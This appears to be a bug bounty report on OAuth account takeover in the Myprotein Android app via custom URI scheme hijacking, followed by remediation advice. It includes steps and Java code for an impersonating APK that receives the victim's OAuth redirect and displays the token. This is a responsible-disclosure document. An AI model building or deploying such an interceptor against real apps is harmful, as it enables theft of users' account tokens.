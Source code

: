 # Title: OAuth Account Takeover Due to Improper Intent Handling in Myprotein APK

---

# What i was able to do:
I was able to steal to the OAuth token of a user (myself), With this token, I gained full access to the user’s account,  performing a complete OAuth Account Takeover.  

## POC:

[myproteinAndroid_oauth_poc.mp4](https://bugcrowd.com/engagements/hutgroup-og/submissions/9e1e74be-092e-4a68-b753-5b9e13bcc5d6/attachments/dd80932c-586d-4b3e-b74a-916096349250 "myproteinAndroid_oauth_poc.mp4")

---

# Description:
The core issue lies in the assumption made during the OAuth authentication flow, where ownership of the custom scheme specified in the redirect_uri is presumed to be exclusively tied to the legitimate client application. 

For example, when `redirect_uri=examplehost://authorize/#oauth_token` is used, it is assumed that `examplehost://authorize` only belongs to the client app, since the app configured this to this custom scheme as part of the OAuth process.

However, The problem with this approach is that any application on the user's device can potentially register this custom scheme, thereby receiving the OAuth grant that was intended for the legitimate app.

This allows two applications to potentially register the same custom URI scheme. If both apps use identical attributes (e.g., scheme, host, port, or path), the system will prompt the user to choose which app should handle the OAuth response. This opens the door for attackers to craft a malicious APK that masquerades as the legitimate app, intercepting the OAuth token and redirecting it to their exploitative app instead.

---


# Steps to reproduce:

So to exploit this in Myprotein app you need to follow the below steps:

### Finding vulnerable custom URI:-
1. Decompile Myprotein APK
1. Go to *AndroidManifest.xml* 
1. Search for the intent filters that receive those URI's that contain sensitive data, such as token or code.

### Making Exploit APK:-
1. Create  an Android Studio Project
1. Create an empty Activity
1. Go to *AndroidManifest.xml* file and add the same intent filter found in Myprotein APK, into exploit APK's main activity.
1. Add the following code to MainActivity.java to intercept the OAuth token and Build the APK.


```
import android.content.ClipData;
import android.content.ClipboardManager;
import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.view.View;
import android.widget.Button;
import android.widget.TextView;
import android.widget.Toast;
import androidx.appcompat.app.AppCompatActivity;

/* loaded from: classes.dex */
public class MainActivity extends AppCompatActivity {
    /* JADX INFO: Access modifiers changed from: protected */
    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    public void onCreate(Bundle bundle) {
        Uri data;
        super.onCreate(bundle);
        setContentView(R.layout.activity_main);
        TextView textView = (TextView) findViewById(R.id.titleTextView);
        TextView textView2 = (TextView) findViewById(R.id.textView);
        Button button = (Button) findViewById(R.id.copyButton);
        button.setVisibility(8);
        Intent intent = getIntent();
        if (!"android.intent.action.VIEW".equals(intent.getAction()) || (data = intent.getData()) == null) {
            return;
        }
        final String uri = data.toString();
        textView.setText("OAuth Code Leaked Successfully");
        textView2.setText(uri);
        button.setVisibility(0);
        button.setOnClickListener(new View.OnClickListener() { // from class: com.oauth.exploitfb1.MainActivity.1
            @Override // android.view.View.OnClickListener
            public void onClick(View view) {
                ((ClipboardManager) MainActivity.this.getSystemService("clipboard")).setPrimaryClip(ClipData.newPlainText("URL", uri));
                Toast.makeText(MainActivity.this, "Data copied to clipboard", 0).show();
            }
        });
        Toast.makeText(this, "Data received", 0).show();
    }
}
```

---

# What victim must do:

## Flow:
1. Victim unintentionally downloads and installs the exploit APK sometime.
1. He installs Myprotein APK and signs up. 
1. When signing up is completed, He will be prompted with 2 exactly same icons to click on. 
1. He clicks on malicious apk. (as he is confuse which one is legitimate) 
1. OAuth tokens get passed to malicious apk. 

---

# Impact:
The impact of OAuth account takeover through mobile app impersonation can be severe and wide-ranging:

* Unauthorized Access.
* Identity Theft.
* Financial Loss.
* Reputation Damage.

---

# Recommendation:
In the context of OAuth, Custom schemes have been used traditionally, but there are more secure and reliable options available, notably:

App to app integration like Google Identity Services and Facebook Express Login for Android
[Android's verifiable AppLinks](https://developer.android.com/training/app-links/verify-android-applinks)

### You need to have /.well-known/assetlinks.json hosted on your backend with a format like this:

```
[
  {
    "relation": [
      "delegate_permission/common.handle_all_urls",
      "delegate_permission/common.get_login_creds"
    ],
    "target": {
      "namespace": "android_app",
      "package_name": "com.myapplication.android",
      "sha256_cert_fingerprints": [
        "APPLICATION_CERT_FINGERPRINT"
      ]
    }
  }
]
```

### AndroidManifest.xml
```
    <intent-filter android:autoVerify="true">
    <action android:name="android.intent.action.VIEW" />
    <category android:name="android.intent.category.DEFAULT" />
    <category android:name="android.intent.category.BROWSABLE" />

    <!-- If a user clicks on a shared link that uses the "http" scheme, your
         app should be able to delegate that traffic to "https". -->
    <data android:scheme="http" />
    <data android:scheme="https" />

    <!-- Include one or more domains that should be verified. -->
    <data android:host="auth.myapp.com" />
</intent-filter>
```

### Kotlin
```
Log.i(TAG, "Creating auth request for login hint: $loginHint")
val authRequestBuilder: AuthorizationRequest.Builder = Builder(
    mAuthStateManager.getCurrent().getAuthorizationServiceConfiguration(),
    mClientId.get(),
    ResponseTypeValues.CODE,
    "https://auth.myapp.com/oauth/handler" // The redirect URI with an https scheme
)
    .setScope(mConfiguration.getScope())
if (!TextUtils.isEmpty(loginHint)) {
    authRequestBuilder.setLoginHint(loginHint)
}
mAuthRequest.set(authRequestBuilder.build())
```

---

# Reference:
[https://developers.googleblog.com/2023/10/enhancing-oauth-app-impersonation-protections.html](https://developers.googleblog.com/2023/10/enhancing-oauth-app-impersonation-protections.html)
[https://developer.android.com/training/app-links/verify-android-applinks](https://developer.android.com/training/app-links/verify-android-applinks)
[https://blog.ostorlab.co/one-scheme-to-rule-them-all.html](https://blog.ostorlab.co/one-scheme-to-rule-them-all.html)  
